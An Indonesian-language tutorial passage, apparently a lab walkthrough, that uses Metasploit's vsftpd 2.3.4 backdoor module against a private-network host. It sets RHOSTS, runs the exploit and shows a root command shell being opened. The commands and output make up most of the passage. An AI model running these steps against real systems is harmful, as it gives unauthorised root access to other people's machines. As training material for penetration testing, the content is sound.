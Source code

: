 ```
  archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
  June 30th 2011 and July 1st 2011 according to the most recent information
  available. This backdoor was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html


View the full module info with the info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```

Dari data yang muncul ip address host target pada bagian `RHOSTS` masih kosong. Kita masukan data ip address target dengan perintah `set RHOSTS xxx.xxx.xxx.xxx`

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.22
RHOSTS => 192.168.1.22
```

cek options untuk melihat konfigurasi jalankan `show options`

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.1.22     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```

Untuk mulai exploit jalankan perintah `exploit` atau `run`.

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.1.22:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.22:21 - USER: 331 Please specify the password.
[+] 192.168.1.22:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.22:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.21:46569 -> 192.168.1.22:6200) at 2024-12-14 23:05:14 +0800
```
